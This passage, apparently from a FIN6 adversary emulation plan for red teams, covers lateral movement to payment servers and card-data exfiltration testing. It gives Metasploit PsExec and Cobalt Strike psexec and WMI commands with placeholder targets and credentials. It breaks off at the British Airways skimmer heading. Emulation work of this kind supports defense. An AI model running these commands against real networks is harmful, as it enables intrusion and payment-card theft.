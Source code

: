 For organizations that are not in favor of injecting scripts into operational payment servers, we recommend the following.  Assess your ability to move laterally within your network from a "compromised" host to the payment server.  Assess your ability to gain unauthorized access and write to the server.  Simulate exfiltration by manually issuing an HTTP POST with simulated credit card information to your exfiltration server.

### Procedures

#### 6.1 Lateral Movement Using C2 Frameworks<sup>[4](https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html)</sup> <sup>[9](https://securityintelligence.com/posts/more_eggs-anyone-threat-actor-itg08-strikes-again/)</sup>

##### Metasploit PsExec - PowerShell ([T1059.001](https://attack.mitre.org/techniques/T1059/001/), [T1569.002](https://attack.mitre.org/techniques/T1569/002/))

FIN6 Procedure

```sh
msf> use exploit/windows/smb/psexec
msf exploit(psexec) > set Target PowerShell
msf exploit(psexec) > set RHost #{PoS system}
msf exploit(psexec) > set SMBDomain #{Domain}
msf exploit(psexec) > set SMBPass #{Password}
msf exploit(psexec) > set SMBUser #{User}
msf exploit(psexec) > exploit -j
```

##### CobaltStrike PowerShell PsExec ([T1059.001](https://attack.mitre.org/techniques/T1059/001), [T1569.002](https://attack.mitre.org/techniques/T1569/002/))

FIN6 Procedure

```sh
beacon> jump psexec_psh #{Web Server}
```

##### CobaltStrike Remote Exec ([T1059.001](https://attack.mitre.org/techniques/T1059/001), [T1047](https://attack.mitre.org/techniques/T1047))

```sh
remote-exec wmi #{Web Server}
```

#### 6.2 Injection/Modification

FIN6 is suspected of compromising the web server responsible for hosting British Airways and modifying a JavaScript library to include the customized script detailed below.

##### British Airways<sup>[14](https://riskiq.com/blog/labs/magecart-british-airways-breach/)</sup>
